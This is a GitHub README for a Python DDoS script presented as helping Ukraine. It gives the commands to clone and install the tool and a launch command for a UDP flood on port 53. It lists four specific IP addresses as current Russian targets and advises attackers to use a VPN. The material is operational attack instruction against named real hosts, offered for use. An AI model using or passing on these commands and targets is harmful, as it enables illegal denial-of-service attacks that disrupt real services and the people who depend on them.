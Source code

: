 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>

<em><h5 align="center">(Code Lang - Python 3)</h5></em>


<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started


**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently russian targets ips

194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53







